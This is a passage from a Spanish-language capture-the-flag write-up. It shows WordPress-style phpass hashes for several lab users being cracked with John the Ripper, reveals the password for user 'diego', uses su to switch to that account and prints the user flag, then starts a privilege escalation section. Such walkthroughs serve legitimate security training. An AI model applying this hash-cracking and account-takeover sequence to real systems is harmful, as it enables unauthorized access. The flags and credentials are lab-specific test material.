 Vemos que la mayoria de nombres estan en el sistema, por lo que vamos a intentar `crackear` alguna contraseña.

Vamos a crear un listado de `hashes` para intentar `crackearlos`:

> hash

```
think:$P$B0jO/cdGOCZhlAJfPSqV2gVi2pb7Vd/
gege:$P$BsIY1w5krnhP3WvURMts0/M4FwiG0m1
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
xavi:$P$BvcalhsCfVILp2SgttADny40mqJZCN/
admin:$P$B5Te3OJvzvJ7NjDDeHZcOKqsQACvOJ0
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
sandiegocalifornia (diego)     
1g 0:00:01:00 DONE (2025-04-08 02:35) 0.01660g/s 21865p/s 21865c/s 21865C/s sandr1ta..sandervandoorn
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
```

Vemos que ha funcionado y obtendremos unas credenciales, por lo que vamos a intentar conectarnos por `SSH` para tener una mejor `shell`.

Pero antes tendremos que escalar a `diego` para generarnos una clave `PEM` ya que solo podemos entrar por eso.

```shell
su diego
```

Metemos como contraseña `sandiegocalifornia`, por lo que leeremos la `flag` del usuario.

> user.txt

```
45edaec653ff9ee06236b7ce72b86963
```

## Escalate user think

Si listamos las carpetas de la `/home` veremos lo siguiente:

```shell
ls -la /home
```
